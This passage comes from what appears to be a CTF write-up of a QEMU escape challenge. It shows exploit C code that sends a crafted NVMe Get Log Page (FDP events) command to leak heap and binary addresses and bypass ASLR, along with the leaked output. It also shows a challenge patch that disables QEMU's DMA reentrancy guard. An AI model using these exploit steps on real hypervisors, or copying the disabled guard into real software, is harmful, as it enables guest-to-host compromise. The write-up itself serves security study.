 Next, we just need to construct a command `NVME_LOG_FDP_EVENTS`, enqueue it to SQ-0, and ring the doorbell of SQ-0 to trigger the bug. To get the leak data, you should provide the physical address of the read buffer.

``` c
cmd.opcode = NVME_ADM_CMD_GET_LOG_PAGE; // subcommand
cmd.cdw10 = (read_len << 16) | NVME_LOG_FDP_EVENTS; // how many data to leak
cmd.cdw11 = (1 << 16);
cmd.cdw12 = read_off; // the offset of elog
cmd.dptr.prp1 = virt_to_phys(leak); // used to store the return value
run_nvme_cmd(&cmd); // enqueue cmd and ring the bell
```

Once successful, there will be a lot of addresses in the read buffer.

```
# /exp
0000: 0x0000000000000000
0008: 0x0000000000000061
0010: 0x00005653e9de4a30
0018: 0x00005653e9de43d0
0020: 0x0000000000000000
# [...] irq error message
0028: 0x00005653e73ff830
0030: 0x0000000000000000
0038: 0x00005653e73ff8bf
0040: 0x00005653e73ff8df
0048: 0x0000000000000000
0050: 0x00005653e9ddde10
# [...]
```

Because the QEMU heap appears stable after booting, the offsets of the leaked heap and binary address remain consistent each time. This indicates that we've successfully **bypassed ASLR**.



#### 5.2 DMA Reentrancy

The second patch removes the check for the DMA MMIO reentrancy guard.

```diff
diff -ur qemu-9.0.1/system/memory.c qemu-chal/system/memory.c
--- qemu-9.0.1/system/memory.c    2024-06-11 02:35:25.000000000 +0800
+++ qemu-chal/system/memory.c    2024-06-16 01:11:01.255485829 +0800
@@ -551,10 +551,10 @@
     if (mr->dev && !mr->disable_reentrancy_guard &&
         !mr->ram_device && !mr->ram && !mr->rom_device && !mr->readonly) {
         if (mr->dev->mem_reentrancy_guard.engaged_in_io) {
-            warn_report_once("Blocked re-entrant IO on MemoryRegion: "
-                             "%s at addr: 0x%" HWADDR_PRIX,
-                             memory_region_name(mr), addr);
-            return MEMTX_ACCESS_ERROR;
+            // warn_report_once("Blocked re-entrant IO on MemoryRegion: "
+            //                  "%s at addr: 0x%" HWADDR_PRIX,
+            //                  memory_region_name(mr), addr);
+            // return MEMTX_ACCESS_ERROR;
         }
         mr->dev->mem_reentrancy_guard.engaged_in_io = true;
         reentrancy_guard_applied = true;
```
